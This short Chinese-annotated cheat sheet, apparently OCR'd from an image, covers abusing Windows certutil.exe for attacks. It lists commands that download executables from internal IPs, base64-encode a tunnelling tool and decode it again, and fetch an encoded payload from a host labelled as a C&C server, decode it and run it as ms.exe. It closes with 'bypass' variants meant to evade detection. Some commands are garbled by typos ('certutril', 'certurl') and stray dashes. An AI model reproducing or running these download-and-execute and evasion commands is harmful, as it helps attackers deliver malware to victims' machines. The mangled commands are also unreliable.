 	>certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 
	>certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe  1.exe
	删除缓存
	>certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete
	查看缓存
	>certutil.exe -urlcache *
	转为base64
	>certutil -encode lcx64.exe lcx64.txt 或>certutil -encode d:\lcx64.exe d:\lcx64.txt(本地执行)
	>echo xxxx>>d:\1.txt
	解码
	>certutil -decode 1.txt lcx64.exe
	对文件进行编码下载后解码执行
	>base64 payload.exe > /var/www/html/1.txt # 在C&C上生成经base64编码的exe
	>certutril -urlcache -split -f http://192.168.0.107/1.txt & certurl -decode 1.txt ms.exe & ms.exe
	bypass
	>Certutil & Certutil –urlcache –f –split url
	>Certutil | Certutil –urlcache –f –split url
